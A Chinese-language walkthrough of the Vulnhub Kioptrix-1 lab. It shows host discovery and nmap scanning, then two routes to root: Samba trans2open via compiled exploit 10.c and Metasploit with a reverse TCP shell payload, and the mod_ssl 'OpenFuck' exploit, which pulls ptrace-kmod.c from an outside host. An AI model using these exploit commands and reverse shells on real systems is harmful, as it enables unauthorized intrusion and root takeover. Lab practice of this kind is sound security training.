# 前言

靶机：`kioptrix-1`，IP地址为`192.168.1.104`

攻击：`kali`，IP地址为`192.168.1.16`

都采用虚拟机，网卡为桥接模式

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过下方链接下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行



# 信息收集

## 使用nmap扫描端口



对于后续的目录爆破等，因为我个人测试过，所以发现网站的目录无价值，进而直接搜索版本漏洞进行测试

# smb漏洞寻找并利用

## 使用searchsploit

前面直接发现`139`端口开启，并且`nmap`扫描出的是`sam`服务

那么使用`smbclient`尝试连接，看能否有东西产出

如图，并未把版本揭示，那么我对于漏洞的使用缺失重要的一块



更换工具，采用`github`上的一个项目进行测试`https://github.com/amitn322/smb-version/blob/master/samba_version.py`

下载到`kali`中，然后执行脚本即可

```shell
python2 smbversion.py -s 192.168.1.104
```



使用`searchsploit`进行测试，发现对应的漏洞只有一个可用于继续下一步，对于`.rb`，因为是`msf`特有的，所以暂不考虑



查看`10.c`文件，给出了用法



那么直接进行编译即可

```shell
gcc 10.c -o exp
```



编译成功，直接执行上面的用法，针对单个`ip`即可

```shell
./exp -b 0 -v 192.168.1.104
```

执行后，提权至`root`




## 使用msf

把上面作为节点，这里是新的

这里还是要检测`smb`服务的版本，这里借助整个`msf`作为使用

使用下面命令启动`msf`，并搜索对应的模块

```shell
msfconsole
search type:auxiliary smb version detection
```



那么使用该模块，命令如下

```shell
msf6 > use 0
msf6 auxiliary(scanner/smb/smb_version) > options

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.1.104
msf6 auxiliary(scanner/smb/smb_version) > set rport 139
msf6 auxiliary(scanner/smb/smb_version) > options

msf6 auxiliary(scanner/smb/smb_version) > run
```



执行后，会看到对应的版本信息



通过版本在`msf`中搜索可执行漏洞，这里注意，漏洞都是同一种`trans2open`，只是操作系统不同，这里靶机为`linux`操作系统，所以根据操作系统去选择

```shell
search type:exploit samba 2.2
```



```shell
use 2
options

set rhost 192.168.1.104
//端口默认目标的是139
```

这里需要设置一个`payload`进行监听反弹`shell`，所以需要设置`linux`的监听

```shell
set payload linux/x86/shell/reverse_tcp
//脚本很多，选择其中一个即可
```



这时候执行，等待缓冲区溢出的爆破，一会即可发现反弹成功




# web应用漏洞寻找利用

在之前使用`nmap`扫描时，确定443端口服务的版本`mod_ssl 2.8.4`，尝试进行搜索了一下，发现有版本范围内的一个漏洞`openfuck`

```shell
searchsploit mod_ssl 2.8.4
```



再使用`nikto`测试，发现也是有提到，可能存在

```shell
nikto -h 192.168.1.104
```



测试，直接使用`remote buffer overflow`，这个是我个人习惯，采用最新版本。

查看这个`c`文件，其中有用法，以及条件



那么就执行安装后，然后再编译

```shell
apt-get install libssl-dev
gcc -o openfuck 47080.c -lcrypto
```

执行编译后的`openfuck`，查看帮助，提供用法

```shell
./openfuck
```



大概用法就是

```shell
./openfuck 192.168.1.104 [box] 443
```

向下翻找，发现与前面`nmap`扫描出的`443`端口的服务版本`redhat`，中间件版本`apache 1.3.20`对应的有两个



测试这两个即可

```shell
./openfuck 192.168.1.104 0x6a 443

./openfuck 192.168.1.104 0x6b 443
```

这里经过测试两个，发现都是提示超时



可能这里无法利用，不过查看了网上的`wp`，发现可以利用，这让我陷入深思，所以暂且到这里，等我搞清楚，会发布

这里原因是我顺序搞错了，没仔细看帮助用法



```shell
./openfuck 0x6a 192.168.1.104  443

./openfuck 0x6b 192.168.1.104  443
```

测试，发现第二个`0x6b`可获取，但是获取的并非`root`权限，提示是执行后缺失文件



不过这里缺失的文件，给出了下载链接

但是这里是对靶机内缺失的文件进行下载，所以在`kali`先下载该文件后，再通过`python`开启简易`http`服务，下载到靶机内

```shell
wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
```



因为获取的shell当前目录就是在`/tmp`。所以可以下载，所以直接使用`wget`下载到这里



这时候再执行该脚本，即可发现成功获取到`root`，不过这里的命令需要在后面加上`-c`

```shell
./openfuck 0x6b 192.168.1.104 443 -c 40
```



# 总结

该靶机考察以下几点：

1. 对于存在的`smb`服务，要能够识别出版本信息，也就是信息收集，这样才能为下一步确定有无版本信息做铺垫
2. 善于使用`searchsploit`，这个是调用一个漏洞库中的信息，当然对于漏洞库也不要仅限于一个，多个漏洞库去搜索，可能这个没有，那个会有
3. 对于给出的`poc`、`c`文件等，要会编译，并复现，经常查看源文件
4. 对于`msf`这个强大的工具，要会使用，至少要知道一些简单的用法

主要考察的就是对于服务的版本历史漏洞的复现，以及利用


